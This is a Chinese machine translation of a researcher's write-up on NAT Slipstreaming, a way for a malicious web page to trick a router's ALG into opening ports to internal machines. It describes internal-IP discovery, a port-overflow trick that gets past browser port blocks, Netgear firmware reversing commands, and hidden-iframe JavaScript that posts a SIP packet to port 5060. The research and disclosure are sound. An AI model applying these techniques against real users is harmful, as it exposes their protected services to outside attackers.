# 滑流:NAT 滑流允许攻击者远程访问任何 TCP/UDP 服务

> 原文：<https://kalilinuxtutorials.com/slipstreaming/>

[](https://1.bp.blogspot.com/-jUg1Ex2yOok/X9vPQ9IhShI/AAAAAAAAIKU/Zy0RdS41Tq0Yemhz4p87buBqLw2R77TsACLcBGAsYHQ/s728/Slipstreaming%25281%2529.png)

**NAT Slipstreaming** 通过定时攻击或 WebRTC 链接内部 IP 提取、自动远程 MTU 和 IP 碎片发现、TCP 数据包大小按摩、TURN 身份验证误用、精确数据包边界控制以及滥用浏览器造成的协议混乱，利用用户浏览器与内置于 NAT、路由器和防火墙中的应用层网关(ALG)连接跟踪机制。由于是 NAT 或防火墙打开了目的端口，这就绕过了任何基于浏览器的端口限制。

这种攻击利用了对一些 TCP 和 UDP 数据包*的数据部分的任意控制，而没有*包括 HTTP 或其他报头；攻击者在所有主要的现代(和旧的)浏览器上执行这种新的数据包注入技术，并且是我 2010 年(在 DEFCON 18 + Black Hat 2010 上展示)的原始 [NAT 牵制技术的现代化版本。此外，还包括本地 IP 地址发现的新技术。](https://samy.pl/natpin/)

这种攻击需要 NAT/防火墙支持 ALG(应用级网关)，对于 SIP 和 H323 (VoIP 协议)、FTP、IRC DCC 等可以使用多个端口(控制通道+数据通道)的协议来说是强制性的。

**在高层次上，NAT 滑流是这样工作的:**

*   受害者访问恶意网站(或带有恶意广告的网站)
*   受害者的内部 IP 首先必须由浏览器提取并发送到服务器
    *   试图通过 https 上的 [WebRTC](https://www.w3.org/TR/webrtc/) 数据通道提取内部 IP
        *   一些浏览器(Chrome)仅通过 HTTPS 上的 WebRTC 泄露本地 IP，但是我们的一些攻击需要 HTTP，所以我们首先重定向到攻击软件的 HTTPS 版本来提取本地 IP
        *   然后，如果我们能够绕过其他跨源保护机制，我们将重定向到 URL 中包含本地 IP 的 HTTP 版本(所显示的`.local` mDNS/Bonjour 地址对攻击没有用)
    *   如果内部 IP 未被 WebRTC (Safari)泄漏或没有 WebRTC ( <= IE11), **执行基于网络的 TCP 计时攻击**
        *   所有公共网关(例如`192.168.0.1`)的隐藏`img`标签在后台加载
        *   `onerror/onsuccess`附加到`img`标签的事件
        *   如果网关返回任何 TCP RST(或 SYN + HTTP 响应)，我们已经检测到有效的子网
        *   对检测到的子网上的所有 IP 重新执行定时攻击(/24)，测量发生错误/成功触发的时间
        *   最快的响应可能是内部 IP，尽管所有响应都被视为受害者内部 IP 候选并受到攻击
*   通过隐藏形式和自动 HTTP POST 向绑定到非标准端口的攻击者“HTTP 服务器”发送大型 TCP 信标，以强制 TCP 分段和发现受害者 IP 堆栈的最大 MTU 大小
    *   攻击者 TCP 服务器发送[最大分段大小](https://tools.ietf.org/html/rfc793#section-3.1) TCP 选项，以告知受害者出站数据包大小( [RFC 793 x3.1](https://tools.ietf.org/html/rfc793#section-3.1) ，从而控制浏览器 TCP 数据包的大小
*   从浏览器通过 WebRTC 发送的大型 UDP 信标将身份验证机制转换为非标准端口，并传输到攻击者的服务器，以强制 IP 分段，并填充 TURN `username`字段
    *   我们执行了与 TCP 分段类似的攻击，但是在 UDP 上，会出现 IP 碎片，并提供与 TCP 分段不同的值
    *   受害者 MTU 大小、IP 报头大小、IP 数据包大小、TCP 报头大小、TCP 段大小由服务器检测并发送回受害者浏览器，稍后用于数据包填充
*   “SIP 数据包”以新的隐藏形式生成，包含内部 IP 以触发应用级网关连接跟踪
    *   向 TCP 端口 5060 (SIP 端口)上的服务器发起“HTTP POST ”,避开[受限浏览器端口](https://github.com/samyk/chromium/blob/2d57e5b8afc6d01b344a8d95d3470d46b35845c5/net/base/port_util.cc#L20-L90)
    *   POST 数据被“填充”到确切的 TCP 段大小/数据包边界，然后附加“SIP 数据包”并通过 web 表单发布
    *   **受害者 IP 堆栈将 POST 分成多个 TCP 数据包，将“SIP 数据包”(作为 POST 数据的一部分)留在自己的 TCP 数据包中，而不附带任何 HTTP 报头**
    *   如果浏览器更改了多部分/表单边界(Firefox)的大小，或者由于任何其他原因更改了数据包的大小，则大小更改会被传送回客户端，客户端会使用新的大小自动重新发送
    *   当打开 UDP 端口时，SIP 数据包通过特制的`username`字段内的 TURN 协议发送，强制 IP 分段和精确的边界控制
*   受害者 NAT 在 SIP 端口上看到正确的 SIP 注册数据包(没有 HTTP 数据)，触发 ALG 打开返回受害者的数据包中定义的任何 TCP/UDP 端口
    *   受害者 NAT 重写 SIP 数据包，用公共 IP 替换内部 IP，暗示攻击者利用成功
    *   即使受害者 NAT 正常重写源端口，ALG 仍将被迫将端口转发到攻击者选择的端口，因为它认为受害者机器打开了该端口，并且攻击者在到达的 SIP 数据包中看到了新的源端口
    *   **攻击者现在可以绕过受害者的 NAT，直接连接到受害者机器上的任何端口，暴露之前受保护/隐藏的服务**
*   去调查…也许是你？
    *   非恶意使用:这种技术本质上为浏览器提供了完整的 TCP 和 UDP 套接字能力，以便与系统上本地的任何协议进行通信；连接可以通过云服务器抽象，云服务器连接回来，但浏览器只是像套接字一样与云服务器对话，使浏览器在非网络友好协议上的通信更加强大
    *   如果在使用共享网络的虚拟机(VM)中测试(用于通过主机路由它，而不是让它直接进入网络来保护主机免受攻击)，如果数据包发出，端口最终打开的是父主机，而不是虚拟机😉
    *   IP 分段允许完全控制 IP 数据段中的所有数据，这意味着完全控制 **UDP 报头**，包括溢出数据包中的源/目标端口……这还会滥用什么？



**避重就轻**

**网络地址转换(NAT)**

我们使用 NAT(网络地址转换)有几个原因。NAT 最有用的功能是允许多个系统共享一个公共 IP 地址。它通过创建一个本地网络，向所有连接的机器提供本地 IP 地址来实现这一点，当其中一个系统连接到互联网时，它会重写发出的数据包以使用公共 IP，以便响应返回到 NAT，反之亦然，将目的 IP 重写为特定客户端的 IP。

NAT 负责区分内部主机到相同地址/端口(google.com:443)的连接，因为最终它们的出站端口、目的 ip 和源 ip 都是相同的。如果两个不同的内部对等体试图从同一个源端口连接，现代 NAT 将改变其中一个源端口(一些网络对所有 TCP/UDP 源端口都这样做)。



**连接跟踪**

来自[维基百科 ala Wikiwand](https://www.wikiwand.com/en/Netfilter) :

```
One of the important features built on top of the Netfilter 
framework is connection tracking. Connection tracking 
allows the kernel to keep track of all logical network 
connections or sessions, and thereby relate all of the packets
which may make up that connection. NAT relies on this 
information to translate all related packets in the same way, 
and iptables can use this information to act as a stateful 
firewall. 
```

如果您的 NAT 后面的一台机器发出一个数据包，并且您的路由器预计远程主机可能会响应，它会跟踪信息，特别是源和目的端口、源和目的 IP 地址以及您的内部 IP，然后将任何与之匹配的数据包返回给您的内部 IP。

如果您的 LAN 上的另一台主机试图使用相同的源端口和目的端口+IP 建立相同的连接，您的 NAT 将无法识别它(源 IP 在您的 LAN 上是不同的，但在 WAN 端被重写为相同的公共 IP)，因此它会改变源端口，但在发送回给您时会重写它。

**应用层网关**

ALG 允许 NAT 跟踪多端口协议，如从您的系统到 FTP 服务器的 FTP，然后跟踪您何时请求将文件发送到特定端口上的内部 IP，ALG 可以重写数据包以包含您的公共 IP，然后将 FTP 的服务器连接转发给您。如果它没有重写您的 IP 地址，FTP 服务器会尝试连接回您的内部 IP 地址(或者如果它希望源 IP 地址与信令连接地址相同，则根本不尝试)。

来自[维基百科](https://www.wikiwand.com/en/Application-level_gateway):

```
In the context of computer networking, an application-level 
gateway consists of a security component that augments a 
firewall or NAT employed in a computer network. It allows 
customized NAT traversal filters to be plugged into the 
gateway to support address and port translation for certain 
application layer "control/data" protocols such as FTP, 
BitTorrent, SIP, RTSP, file transfer in IM applications, etc. 
In order for these protocols to work through NAT or a 
firewall, either the application has to know about an address/
port number combination that allows incoming packets, or the 
NAT has to monitor the control traffic and open up port 
mappings (firewall pinhole) dynamically as required. 
Legitimate application data can thus be passed through the 
security checks of the firewall or NAT that would have 
otherwise restricted the traffic for not meeting its limited 
filter criteria. 
```

**路由器调查/固件转储**

我想先看看普通网关实际上是如何处理数据包和多端口协议的，如 FTP、SIP 等。为此，我们需要对普通路由器的固件进行逆向工程。我们可以从物理路由器转储闪存，但是如果我们可以从制造商那里获得未加密的固件，我们将能够更快地研究更多的路由器型号。

我们先从一个普通路由器开始，Netgear Nighthawk R7000。一个[快速搜索](http://bfy.tw/NjZh)帮助我们找到一篇带有[最新固件](http://www.downloads.netgear.com/files/GDC/R7000/R7000-V1.0.9.64_10.2.64.zip)的 [Netgear 文章](https://kb.netgear.com/000060566/R7000-Firmware-Version-1-0-9-64)。下载固件并解压后，我们会发现一个名为 R7000-V1.0.9.64_10.2.64.chk 的 30MB 文件。

```
tigerblood:~c/ng$ wget http://www.downloads.netgear.com/files/GDC/R7000/R7000-V1.0.9.64_10.2.64.zip
--2019-05-19 19:21:13--  http://www.downloads.netgear.com/files/GDC/R7000/R7000-V1.0.9.64_10.2.64.zip
Resolving www.downloads.netgear.com (www.downloads.netgear.com)... 104.69.65.243
Connecting to www.downloads.netgear.com (www.downloads.netgear.com)|104.69.65.243|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 31705064 (30M) [application/zip]
Saving to: ‘R7000-V1.0.9.64_10.2.64.zip’

R7000-V1.0.9.64_10.2.64.zip  100%[=============================================>]  30.24M  6.25MB/s    in 11s

2019-05-19 19:21:24 (2.83 MB/s) - ‘R7000-V1.0.9.64_10.2.64.zip’ saved [31705064/31705064]

tigerblood:~c/ng$ unzip R7000-V1.0.9.64_10.2.64.zip
Archive:  R7000-V1.0.9.64_10.2.64.zip
 extracting: R7000-V1.0.9.64_10.2.64.chk
  inflating: R7000-V1.0.9.64_10.2.64_Release_Notes.html
tigerblood:~c/ng$ file R7000-V1.0.9.64_10.2.64.chk
R7000-V1.0.9.64_10.2.64.chk: data
tigerblood:~c/ng$ ls -lh R7000-V1.0.9.64_10.2.64.chk
-rw-r--r--  1 samy  staff    30M Mar 26 11:46 R7000-V1.0.9.64_10.2.64.chk
```

[](https://github.com/samyk/slipstream/blob/main/img/ngchk.png)

`file`命令没有检测到任何[魔法信息](https://www.wikiwand.com/en/Magic_number_(programming))，所以我们可以使用 [`binwalk`](https://github.com/ReFirmLabs/binwalk) 来扫描文件中的嵌套数据。

```
tigerblood:~c/ng$ binwalk R7000-V1.0.9.64_10.2.64.chk

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
58            0x3A            TRX firmware header, little endian, image size: 31703040 bytes, CRC32: 0xBEF1BB2F, flags: 0x0, version: 1, header size: 28 bytes, loader offset: 0x1C, linux kernel offset: 0x21E3F0, rootfs offset: 0x0
86            0x56            LZMA compressed data, properties: 0x5D, dictionary size: 65536 bytes, uncompressed size: 5436416 bytes
2221098       0x21E42A        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 29
```

我使用 macOS，binwalk 依赖于一些现成的 Linux 应用程序，这会导致`binwalk -e`(提取文件)失败，所以我手动提取(并且我< 3 perl golf)。

```
tigerblood:~c/ng$ perl -ne'$@.=$_}{print+substr$@,2221098' R7000-V1.0.9.64_10.2.64.chk > squash.fs
```

或者用 [`inout`](https://github.com/samyk/samytools/blob/master/inout) ，比如`inout R7000-V1.0.9.64_10.2.64.chk 2221098`。

你可以使用`dd`，但是你会想要一个大的`bs`(块大小)以便它能快速输出，例如 1024，然而`skip`属性(告诉它从 squashfs blob 的位置开始)会考虑块大小，并且 2221098 在我的头脑中除了 2 之外显然不能被任何东西快速整除…现在我很好奇。

```
tigerblood:~c/ng$ time dd if=R7000-V1.0.9.64_10.2.64.chk skip=$((2221098/2)) bs=2 of=squash.fs2
14741000+0 records in
14741000+0 records out
29482000 bytes transferred in 78.363403 secs (376222 bytes/sec)

real	1m18.385s
user	0m12.553s
sys  	1m4.451s
```

现在让我们打开 squash 文件系统。我已经创建了一个在 macOS 上运行并且有`lzo`支持的[叉的 squashfs-tools](https://github.com/samyk/squashfs-tools) 。你可能还需要安装`xz`和`lzo`。或者，您可以在 Linux 上使用 [`sasquatch`](https://github.com/devttys0/sasquatch) 。

```
tigerblood:~c/ng$ sudo port install xz lzo
...
tigerblood:~c/ng$ git clone https://github.com/samyk/squashfs-tools && cd squashfs-tools/squashfs-tools && make && sudo make install && cd ../..
```

最后我们可以打开南瓜 fs 了。

```
tigerblood:~c/ng$ unsquashfs -l -no squash.fs
Parallel unsquashfs: Using 8 processors
1881 inodes (2535 blocks) to write

squashfs-root
squashfs-root/bin
squashfs-root/bin/addgroup
... (many more files) ...

tigerblood:~c/ng$ cd squashfs-root && ls
bin   data  dev   etc   lib   media mnt   opt   proc  sbin  share sys   tmp   usr   var   www
```

我们现在有了可以探索的原始操作系统！

**逆向工程固件**

**寻找有趣的文件**

现在让我们看看我们是否能找到任何与 FTP 相关的文件，因为它是一个被大量使用的协议，所以 ALG 支持将在路由器之间蔓延。我使用我的 [`g tool`](https://github.com/samyk/samytools/blob/master/g) ，这只是一个方便的包装`egrep`。

```
tigerblood:~c/ng/squashfs-root$ find . | g ftp
./usr/bin/tftp
./usr/sbin/bftpd
./usr/sbin/ftp
./usr/sbin/ftpc
./usr/etc/sftp-ssh.service
```

没什么有趣的，那我们就`g`对于内容匹配/ftp/的二进制文件，忽略一些我们不关心的文件。

```
tigerblood:~c/ng/squashfs-root$ g -la ftp -v '\.(html?|js|gif)$|www/|bin/'
lib/libsmbd-base-samba4.so
lib/libavformat.so.55
lib/libavutil.so.52
lib/libavcodec.so.55
lib/modules/tdts.ko
lib/modules/2.6.36.4brcmarm+/kernel/lib/br_dns_hijack.ko
lib/libcrypto.so.1.0.0
opt/xagent/certs/ca-bundle-mega.crt
usr/etc/sftp-ssh.service
usr/lib/libnvram.so
usr/lib/libcurl.a
usr/lib/libcurl.so.4.3.0
usr/lib/libcurl.so
usr/share/avahi/service-types
usr/share/libcrypto.so.1.0.0
```

[`g`](https://github.com/samyk/samytools/blob/master/g) 默认递归扫描当前工作目录。`-l`是只打印文件名(因为这些大多是二进制的)，`-a`是扫描二进制文件，`ftp`是匹配文本，`-v '\.(html?|js|gif)$|www/|bin/'`是忽略 web 文件和可执行文件(位于(s)bin/)。

任何`lib/lib*.{a,so}{.*,}` (bash 格式)的文件都没意思，那我们就少扫描一遍:

```
tigerblood:~c/ng/squashfs-root$ g -la ftp -v '\.(html?|js|gif)$|www/|bin/|lib.*\.(so|a)(\.|$)'
lib/modules/tdts.ko
lib/modules/2.6.36.4brcmarm+/kernel/lib/br_dns_hijack.ko
opt/xagent/certs/ca-bundle-mega.crt
usr/etc/sftp-ssh.service
usr/share/avahi/service-types
```

**探索潜在的有用功能**

好的，两个感兴趣的文件— `lib/modules/tdts.ko`可能相关，而`lib/modules/2.6.36.4brcmarm+/kernel/lib/br_dns_hijack.ko`可能不相关，但听起来很有趣！以后可能会调查。

```
tigerblood:~c/ng/squashfs-root$ file lib/modules/tdts.ko
lib/modules/tdts.ko: ELF 32-bit LSB relocatable, ARM, EABI5 version 1 (SYSV), BuildID[sha1]=0aa35748e245e60273ceb5a48641e424d069235b, not stripped
tigerblood:~c/ng/squashfs-root$ strings lib/modules/tdts.ko | g ftp
ftp_decoder_open
ftp_decoder_close
ftp_decode_epsv_resp
ftp_decode_eprt_cmd
ftp_decode_pasv_resp
ftp_decode
ftp_decode_port_cmd
ftp_decoder
check_ftp_ft_rule
```

不错！内核对象(。ko)对于 ftp 函数，以及像“port”这样的词，它很可能与 FTP ALG 相关。 [FTP RFC 959](https://tools.ietf.org/html/rfc959) 解释了`PORT`命令的含义:

```
DATA PORT (PORT)

The argument is a HOST-PORT specification for the data port
to be used in data connection.  There are defaults for both
the user and server data ports, and under normal
circumstances this command and its reply are not needed.  If
this command is used, the argument is the concatenation of a
32-bit internet host address and a 16-bit TCP port address.
This address information is broken into 8-bit fields and the
value of each field is transmitted as a decimal number (in
character string representation).  The fields are separated
by commas.  A port command would be:
    PORT h1,h2,h3,h4,p1,p2
where h1 is the high order 8 bits of the internet host
address. 
```

**要调查的端口/服务**

虽然我们已经找到了一些 FTP 函数，但我们对可以使用的端口更感兴趣。现代浏览器会阻止对包括 FTP 在内的许多受限端口的出站 HTTP(S)连接，因此滥用 FTP ALG 是不允许的。

2010 年，当我[第一次演示 NAT Pinning](https://samy.pl/natpin/) 时，我通过 DCC 聊天/文件消息使用了端口 6667 (IRC)。很快，浏览器供应商封锁了端口 6667…虽然有些使用 uint32 (32 位无符号整数)来存储端口，检查端口是否被封锁，如果没有，连接。为了避免这种情况，需要注意的是 TCP 端口是 16 位长，所以如果您将 2**16 (65536)添加到选择的“受限”端口，在本例中为 65536+6667=72203，浏览器将存储 72203，它将通过端口限制(72203！= 6667)，然后将被发送到 TCP 堆栈，在那里它被截断为 16 位，这是我们想要的受限端口！

我简单的 [`base calculator, 3`](https://github.com/samyk/samytools/blob/master/3) 说明了这一点(db = dec - > bin):

```
tigerblood:/Users/samy/d$ 3 db 65536 6667 65536+6667
000000010000000000000000
000000000001101000001011
000000010001101000001011
```

我们可以使用我的 [`diffbits`](https://github.com/samyk/samytools/blob/master/diffbits) 工具更好地看到它，这是一个简单的工具，用于查看位串之间以及多组位串之间的相似性和差异，对于逆转专有的二进制协议非常有用。

[](https://github.com/samyk/slipstream/blob/main/img/diffbits.png)

**反转内核对象**

继续打开你选择的反汇编程序。我已经使用了我们在 [NSA](https://github.com/NationalSecurityAgency/) 的朋友提供的 [Ghidra](https://ghidra-sre.org) ，因为它是免费和开源的。

我们在`tdts.ko`中通过`strings`看到的一些函数是`ftp_decode`和`ftp_decoder`，所以其他算法也可能有一个`_decode`函数。让我们看看…

[](https://github.com/samyk/slipstream/blob/main/img/ghidraftp.png)

好了，一堆 _decode 函数……向下滚动，有意思的是`sip_decode`。

[](https://github.com/samyk/slipstream/blob/main/img/ghidra-sip.png)

检查我们的[受限浏览器端口](https://github.com/samyk/chromium/blob/2d57e5b8afc6d01b344a8d95d3470d46b35845c5/net/base/port_util.cc#L20-L90)，我们看到默认 SIP 端口 5060 在 Chrome 中不受限制🙂

**尝试 HTTP POST 中的 SIP 数据包**

SIP 使用 TCP/UDP 5060，但是像 RTP(音频)这样的媒体是在动态生成的备用端口上发送的。当发送 SIP 呼叫请求时，您的 SIP 客户端选择一个随机端口，打开它，并将其包含在 SIP 报头中。假设启用了 SIP ALG(默认情况下，大多数路由器都启用了 SIP ALG ),您的 NAT 应该也能看到它并打开它。

假设 NAT 逐行读取 SIP 包(SIP 像 HTTP 一样是基于换行的，不是二进制协议)，也许它会忽略 HTTP 头，一旦到达 POST 数据，读取寄存器并相信它是 SIP 包。这在我们的 IRC DCC 2010 版本中有效。NAT 忽略了 HTTP 头，只解析了 IRC DCC 命令。

有趣的是，这也允许我们实际上让访问我们网站的用户连接到一个合法的 IRC 服务器，加入一个频道，并在他们不知道的情况下从他们的 IP 地址发送消息！😛在端口 25 被浏览器封锁之前，在 SPF 记录普遍存在之前，我演示了用客户端 IP 地址向邮件服务器发送电子邮件的技术…疯狂。

现在，在一个快速测试中，通过 HTTP POST 在端口 5060 上发送 SIP REGISTER 包似乎不起作用…也许我们在包中遗漏了什么。

```
// our sip message
var sipmsg = 'REGISTER sip:samy.pl;transport=TCP SIP/2.0\r\n' +
             'Contact: <sip:samy@192.168.0.109:1234;transport=TCP>\r\n\r\n'

// load form in an iframe so user doesn't see it
var iframe = document.createElement('iframe')
iframe.name = 'iframe'
iframe.style.display = 'none' // hide the iframe

// create form
var form = document.createElement('form')
form.setAttribute('target', 'iframe') // load into iframe
form.setAttribute('method', 'POST') // need the POST area where we can add CRLFs
form.setAttribute('action', 'http://samy.pl:5060') // "http" server on SIP port 5060
form.setAttribute('enctype', 'multipart/form-data') // ensure our data doesn't get encoded

var textarea = document.createElement('textarea')
textarea.setAttribute('name', 'textname') // required
textarea.innerHTML = sipmsg
form.appendChild(textarea)
document.body.appendChild(iframe)
document.body.appendChild(form)
form.submit()
```

如果我们嗅嗅，我们会看到(通过 [`h2b`](https://github.com/samyk/samytools/blob/master/h2b) 解析):

```
$ unbuffer tcpdump -X port 5060 | h2b
POST / HTTP/1.1
Host: samy.pl:5060
Connection: keep-alive
Content-Length: 191
Cache-Control: max-age=0
Origin: http://samy.pl
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryhcoAd2iSAx3TJA7A
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://samy.pl/o/sp.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundaryhcoAd2iSAx3TJA7A
Content-Disposition: form-data; name="textname"

REGISTER sip:samy.pl;transport=TCP SIP/2.0
Contact: <sip:samy@192.168.0.109:1234;transport=TCP>

------WebKitFormBoundaryhcoAd2iSAx3TJA7A--
```

然而，这并没有打开端口，也没有像我们所期望的那样重写 IP 地址(稍后会有更多的介绍)，所以我们一定遗漏了什么。

**继续进一步反转内核对象**

让我们继续研究内核对象。在反汇编中，我们看到 SIP 数据包中的“SIP/2.0”标记，所以它可能在这里进行解析(听起来像“decode”)。

[](https://github.com/samyk/slipstream/blob/main/img/ghidrabne2.png)

啊，这就是我们失败的原因。看起来它正在对 [INVITE](https://tools.ietf.org/html/rfc2543#section-4.2.1) 运行 strncasecmp(类似于对 REGISTER 的解析)——匹配(不区分大小写，有趣的是 SIP INVITEs 是大写的)数据包开头的单词“INVITE”和 **b** 分支 if**n**ot**e**qual(ARM assembly`bne`)为 0，所以如果单词匹配，字典顺序将为 0，我们将继续到`ct_sip_get_header`，这听起来很有趣，否则似乎会放弃。

